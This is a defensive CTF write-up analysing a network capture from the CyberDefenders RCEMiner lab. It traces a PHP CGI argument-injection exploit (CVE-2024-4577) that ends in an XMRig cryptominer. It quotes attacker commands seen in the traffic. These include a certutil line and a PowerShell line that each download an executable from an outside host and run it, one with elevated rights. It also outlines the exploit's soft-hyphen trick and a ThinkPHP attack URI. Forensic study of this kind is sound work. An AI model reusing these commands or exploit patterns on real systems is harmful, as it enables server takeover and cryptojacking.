




# RCEMiner – PCAP Analysis (CyberDefenders)

## Scenario
Over the past 24 hours, the IT department has noticed a drastic increase in CPU and memory usage on several publicly accessible servers.
Initial assessments indicate that the spike may be linked to unauthorized crypto-mining activities.
Your team has been provided with a network capture (PCAP) file from the affected servers for analysis.
Analyze the provided PCAP file using the network analysis tools available to you.
Your goal is to identify how the attacker gained access and what actions they took on the compromised server.

## References
- https://cyberdefenders.org/blueteam-ctf-challenges/rceminer/

> [!IMPORTANT]
> The questions below are not in the original lab order. I arranged them in the order that best matched my investigation flow.

### Q7 - Identifying where the malware could be stored on a compromised system is crucial for ensuring the complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?

I first took a quick look at **Conversations**, but there was too much noise there, so I filtered more directly on:
```text
http.request.method == POST
```
That cut things down fast and made the malicious activity much easier to read.
From there I just skimmed through the different POST requests until the pattern became obvious.
A lot of them were clearly abnormal already, and in some earlier packets from the same source IP there were multiple `cmd`-style payloads that were obviously not normal web traffic.

In the relevant POST body, the important part was written directly in the `mail[#markup]` field:
```text
cmd /c certutil -urlcache -split -f http://36.96.48.3:19490/spread.txt C:\ProgramData\spread.exe && C:\ProgramData\spread.exe
```
So this gave both the download step and the execution step in one shot.
That is why I used the full malware path.


**Answer:** `C:\ProgramData\spread.exe`
### Q1 - To identify the entry point of the attack and prevent similar breaches in the future, it’s crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?

Now that I knew `36.96.48.3` was the infected host, I flipped the view around and put it on the **destination** side, while keeping only **POST** requests since they were the most useful place to start for this part of the investigation.
That immediately narrowed things down to the more suspicious inbound activity instead of wasting time on generic traffic.


From there I followed the HTTP stream on the packet that stood out the most.
The reason it stood out was that the request was clearly not normal web usage at all: it was hitting `/index.php/index.php?...` with `allow_url_include` and `auto_prepend_file=php://input`, and the body was directly using `<?php system(...) ?>` to launch a PowerShell command.
At that point the exploit pattern was already basically visible in clear text.


So I just copied the relevant part of the payload and searched it directly.
The result pointing to **CVE-2024-4577** matched what I was already seeing in the traffic, and a quick read was enough to confirm it lined up with this exact kind of PHP command execution abuse.


**Answer:** `CVE-2024-4577`

### Q2 - A specific Unicode character is used in the exploit to manipulate how the server interprets command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?

Here I had to read a bit more than I wanted, because it was only one question and I did not want to waste too much time digging through the full article.
Given the wording of the question, I stopped at the section comparing the two visually identical ways to write the same argument.
That part showed the benign version using the standard hyphen `0x2D`, while the malicious version used the soft hyphen `0xAD`.
So even if the question says Unicode code point, in practice the expected lab answer was `0xAD`.


**Answer:** `0xAD`

### Q3 - The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker's script?

Since I already knew the attacker/involved host from the previous questions, I filtered directly on the relevant HTTP traffic:
```text
ip.addr == 1.80.23.4 && http
```
That was enough to reduce the noise.
Then I inspected the first suspicious packets and the interesting one was a clear **POST** request from the compromised server to `1.80.23.4:8000`.


Following that HTTP stream gave the answer almost immediately.
The POST body already contained the collected system information, including the CPU field:
```text
Intel(R) Core(TM) i7-6700HQ CPU @ 2.60GHz
```


At that point I could also understand that those values did not appear randomly.
The request had a PowerShell user-agent, so it was probably the output of some script.

Only after that did it make sense to check how those values were collected.
For completeness, I went back to the previous `GET /1.ps1`, followed that HTTP stream, and there the downloaded PowerShell script appeared as encoded content.


It looked unreadable at first, but the script itself showed it was Base64 decoded as UTF-8, so I just used a quick online Base64-to-UTF8 converter.


**Answer:** `Intel(R) Core(TM) i7-6700HQ CPU @ 2.60GHz`

### Q6 - The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?

The question already told me almost everything I needed: it was asking for the MITRE ATT&CK sub-technique involving **DNS queries** used for **command and control**.
So I just searched that combination directly and the right ATT&CK page came up immediately.


The result matched **Application Layer Protocol: DNS**, which is the sub-technique for using DNS in C2 communications.

**Answer:** `T1071.004`

### Q4 - Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?

At this point I used the same idea again and isolated the **POST** requests, because I wanted a quick recap of what the compromised server was doing after the infection.
POST traffic was the most useful here because the exploit commands were being sent in the request body, so it made more sense to focus there instead of looking through every HTTP packet.


Before the long sequence of similar reporting packets, there was one request that looked different enough to check.
Since the question was asking about elevated execution, this packet was a good candidate.

I followed the HTTP stream and the command was visible directly inside the PHP `system()` call:
```powershell
powershell -ExecutionPolicy Bypass -Command "& {Invoke-WebRequest -Uri http://1.80.23.4:8000/2.tx -OutFile C:\Windows\Temp\2.exe; Start-Process C:\Windows\Temp\2.exe -Verb RunAs}"
```


`Start-Process` is a PowerShell cmdlet used to start a program or process.
In this case, it launches the downloaded executable located at `C:\Windows\Temp\2.exe`.

The important part is `-Verb RunAs`.
In Windows, `RunAs` means “run this program as administrator”, so this is the part that tries to start the executable with elevated privileges.

So the command was used to start the process with elevated permissions.

**Answer:** `Start-Process C:\Windows\Temp\2.exe -Verb RunAs`

### Q5 - After compromising the server, the malware used it to launch a massive number of HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?

I used a simpler filter here because I did not want to lose the general picture:
```text
ip.addr == 36.96.48.3
```
Since the question says the framework was **“initially”** targeted, I focused on the first outbound requests after the compromise instead of jumping too far ahead in the traffic.
In those early requests, the URI already shows a very strong clue:
```text
/index.php?s=index/think\app/...
```


The `think` reference in the path is the important part here.
That pattern is strongly associated with **ThinkPHP**.

> [!NOTE]
> A framework is basically a ready-made structure developers use to build applications faster, instead of writing everything from scratch.
> In PHP, common examples include Laravel, Symfony, CodeIgniter, Yii, CakePHP, ThinkPHP, and Drupal.
> The useful thing during traffic analysis is that frameworks often leave recognizable traces in URLs, parameters, or payloads.
> In this lab we also saw another strong framework clue earlier: some requests contained `drupal_ajax`, which clearly pointed to Drupal-related targeting.
> Here, though, the question asks for the framework **initially** targeted, and the first relevant requests point to `think`, so the answer is ThinkPHP.

**Answer:** `ThinkPHP`


### Q8 - Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?

I searched for the reporting traffic more directly with:
```text
ip.src == 36.96.48.3 && tcp && frame contains "CPU"
```
That worked better than looking only at HTTP, because this traffic was not just a normal web POST anymore.
The filter immediately showed repeated TCP packets from the compromised server to `218.244.58.70`, and the payload contained CPU-related status data, so it matched what the question was asking about: system performance metrics being reported out.



Then I followed the TCP stream to confirm the content.
The stream showed repeated performance/status entries, including CPU state information, so I treated that connection as the reporting channel.

In the packet list, the Info column shows the connection as:
```text
49965 → 9011
```
`49965` is the temporary source port from the compromised server.
The actual destination port is `9011`.





**Answer:** `218.244.58.70:9011`

### Q9 - Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?

I filtered directly on:
```text
frame contains "agent"
```
because mining clients often identify themselves in the Stratum login message with an `agent` field.
That immediately led to the relevant TCP stream, where the JSON login request was visible in clear text.



Inside the stream, the `agent` value was:
```text
XMRig/5.5.0
```



**Answer:** `XMRig/5.5.0`